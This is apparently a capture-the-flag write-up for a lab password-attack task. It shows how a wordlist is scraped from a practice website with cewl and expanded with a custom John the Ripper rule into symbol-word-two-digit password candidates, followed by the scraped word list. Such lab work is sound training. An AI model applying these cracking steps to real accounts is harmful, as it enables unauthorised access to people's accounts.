 What is the password? Note that the password format is as follows: [symbol][dictionary word][0-9][0-9].



```bash
#Get custom clinc wordlist:
cewl https://clinic.thmredteam.com/ -m 8 -w clinic_wordlist.txt


vi /opt/john/john.conf
"
[List.Rules:THM-Password-Attacks]
Az"[0–9][0–9]" ^[!@]
"

cp /opt/john/john.conf /etc/john/john.conf
/sbin/john --wordlist=clinic_wordlist.txt --rules=THM-Password-Attacks --stdout > dict.lst

Press 'q' or Ctrl-C to abort, almost any other key for status
5250p 0:00:00:00 100.00% (2024-01-22 09:55) 525000p/s @ultricies99
```

cewl list
```
placerat
venenatis
eleifend
Technology
Consultant
thmredteam
Professional
interdum
condimentum
pellentesque
fringilla
volutpat
tincidunt
Maecenas
lobortis
facilisis
pulvinar
dignissim
Suspendisse
Facebook
maecenas
voluptate
Introducing
Categories
pharetra
Curabitur
consequat
ultricies
```

